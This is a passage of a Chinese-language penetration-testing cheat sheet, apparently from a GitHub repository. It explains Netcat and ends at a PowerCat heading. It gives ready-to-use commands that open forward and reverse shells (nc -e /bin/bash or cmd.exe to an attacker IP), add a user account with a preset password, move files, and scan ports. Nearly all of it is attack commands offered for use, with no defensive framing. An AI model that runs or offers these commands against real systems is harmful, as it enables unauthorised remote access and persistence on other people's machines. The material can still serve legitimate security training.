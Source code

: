    ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```
> PS：断开连接时，建议先断开连接端

#### Netcat 反弹 Shell

> NetCat，简称 NC。是一个简单、可靠的网络工具，被誉为网络界的瑞士军刀。通过 NC 可以进行端口扫描、反弹 Shell、端口监听和文件传输等操作。

NC 的常用参数：
- `-c`：指定连接后要执行的 Shell 命令
- `-e`：指定连接后要执行的文件名
- `-k`：配置 Socket 一直存活（如不想在 Shell 后使监听断开可以配置此参数）
- `-l`：监听模式
- `-p`：设置本地主机使用的通信端口
- `-u`：使用 UDP 传输协议。默认 TCP
- `-v`：显示指令执行过程。用 `-vv` 会更详细

##### 正向 Shell（两台机器互通）

- Windows
    靶机开启监听： `nc.exe -lvvp 3333 -e C:\Windows\System32\cmd.exe`
    攻击进行连接： `nc.exe 192.168.xxx.xxx 3333`
- Linux
    靶机开启监听： `nc -lvvp 3333 -e /bin/bash`
    攻击进行连接： `nc.exe 192.168.xxx.xxx 3333`

##### 反弹 Shell（靶机可以访问攻击机，攻击机无法直接访问靶机）

- Windows
    攻击开启监听： `nc.exe -lvvp 3333`
    靶机进行连接： `nc.exe -e C:\Windows\System32\cmd.exe 192.168.xxx.xxx 3333`
- Linux
    攻击开启监听： `nc -lvvp 3333`
    靶机进行连接： `nc -e /bin/bash 192.168.xxx.xxx 3333`

##### NC 的其他用法

1. Banner 抓取

`nc -nv IP Port`

2. 端口探测

`nc -v IP Port`
`nc -v -z IP 1~65535`

3. 端口监听

`nc -l -p Port`

4. 文件传输

接收端： `nc -lp Port > file`
发送端： `nc -vn IP Port < file -q 1`（Linux） 或 `nc -vn IP Port < file -w` （Windows）

5. 简易通信

VPS：`nc -l p Port`
靶机：`nc -vn IP Port`

6. 连接远程主机

`nc -nvv IP Port`

#### PowerCat 反弹 Shell
   ```